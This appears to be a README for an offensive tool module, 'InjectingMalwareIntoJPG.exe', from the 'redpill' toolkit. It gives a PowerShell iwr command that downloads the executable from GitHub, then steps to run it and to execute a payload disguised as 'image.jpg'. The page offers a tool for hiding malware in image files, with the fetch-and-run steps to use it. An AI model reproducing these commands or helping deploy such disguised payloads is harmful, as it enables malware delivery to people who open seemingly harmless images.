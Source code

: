 ## Module Name
   <b><i>InjectingMalwareIntoJPG.exe</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|InjectingMalwareIntoJPG|Inject Malware Into JPG|UserLand|[screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/none)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/InjectingMalwareIntoJPG/InjectingMalwareIntoJPG.exe" -OutFile "InjectingMalwareIntoJPG.exe"
```

```powershell
.\InjectingMalwareIntoJPG.exe
# then follow program instructions

# execute payload
.\image.jpg
```
